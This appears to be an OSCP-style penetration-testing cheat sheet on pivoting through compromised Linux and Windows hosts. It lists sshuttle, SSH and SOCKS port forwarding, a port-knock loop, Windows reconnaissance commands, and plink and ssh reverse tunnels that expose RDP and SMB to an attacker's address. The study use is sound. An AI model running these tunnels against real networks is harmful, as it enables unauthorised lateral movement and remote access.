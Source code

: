 # Tunneling

* https://github.com/areyou1or0/Tunneling
* https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html

# Pivot with a compromised Linux machine

## SSHuttle

* https://github.com/sshuttle/sshuttle

```
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```

## SSH

**Local Port Forward**
```
ssh <gateway> -L <localport>:<remote host>:<remote port>
```

**Remote Port Forward**
```
ssh <gateway> -R <remote port>:<local host>:<local port>
```

**SOCKs Proxy**
```
ssh username@host -D <local proxy port> -p <remote port> <target ip>
```

`-nNT` - do not allocate tty

`proxychains` - used to send any processes traffic through a SOCKs proxy defaults to port 9050

`HTTPTunnel` or `stunnel` - tunnel any traffic through HTTP or SSL

**SSH not installed?**

* https://matt.ucc.asn.au/dropbear/dropbear.html

## Port knock

```
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x server_ip_address; done
```

# Pivot with a compromised Windows machine

## PTH

* https://github.com/maaaaz/impacket-examples-windows

## Look for connections to other hosts

```
Arp -a  
netstat -abno 
ipconfig /all 
route print 
schtasks /query /fo LIST /v 
netsh firewall show config
```

## plink

For example to expose RDP, on the target run:
```
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

## SSH

As of Windows 10 1803 (April 2018 Update), ssh client is now included and turned on by default:
```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Remote Desktop

Remote Desktop for windows with share and 85% screen:
```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```

## Static binaries

* https://github.com/andrew-d/static-binaries
* https://github.com/static-linux/static-binaries-i386
* https://github.com/yunchih/static-binaries


# References

* https://0xdarkvortex.dev/index.php/2018/04/17/31-days-of-oscp-experience/
* https://ben.the-collective.net/oscp-notes/pivoting/
* https://paper.dropbox.com/doc/OSCP-Methodology-EnVX7VSiNGZ2K2QxCZD7Q